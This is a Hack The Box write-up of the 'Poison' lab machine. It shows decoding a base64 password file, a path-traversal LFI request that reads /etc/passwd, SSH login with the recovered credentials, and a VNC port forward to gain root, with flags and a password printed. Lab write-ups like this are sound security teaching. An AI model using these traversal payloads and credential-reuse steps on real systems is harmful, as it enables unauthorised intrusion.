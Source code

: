 ```yaml
---
title: "Hack The Box: Poison - Writeup"
date: "2018-09-02"
---
```


NOTE: we did that in CyberCamp 2018. Just re-solving it. IP: 10.10.10.84

## nmap

Scanning 10.10.10.84 \[65536 ports\]
Discovered open port 80/tcp on 10.10.10.84
Discovered open port 22/tcp on 10.10.10.84

## Web server

Web server has a bunch of "testing PHP scripts".

One of the scripts is called listfiles.php, which lists the folder.

Among the PHP files there's also a file called pwdbackup.txt:

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it with base64 -d gets us the password:

```
root@kali:~/Poison# cat pwd.work | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
Charix!2#4%6&8(0
```

We still need the user to login as.

We can use browse.php's LFI exploitability:

```
view-source:http://10.10.10.84/browse.php?file=../../../../../etc/passwd

root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
# *
```

And, hey presto:

```
root@kali:~/Poison# ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
Password for charix@Poison:
Last login: Sun Aug  5 16:50:08 2018 from 10.10.14.236
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!
charix@Poison:~ %
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a589233063604209c
```

User flag done.

There's also a file called secret.zip, which we will get back to soon.

## Doing root flag

Root has Xvnc running but not visible from the outside: let's port forward into it.

```
ssh -L 8123:localhost:5901 charix@10.10.10.84
```

The file secret.zip is a password-protected zipfile, and the user password and ZIP password are the same.

Inside the zipfile is a file called secret.

The VNC server is running with the following command line:

```
root   529   0.0  0.9  23620  8872 v0- I    16:47   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280
```

Connecting to it returns a password prompt:

```
root@kali# xvncviewer localhost:8123
```

Turns out the secret file is the password of the VNC server:

```
root@kali# xvncviewer -passwd secret localhost:8123
```

And, I am root:

```
root@Poison# cat root.txt
716d04b188419cf2bb99d891272361f5
```
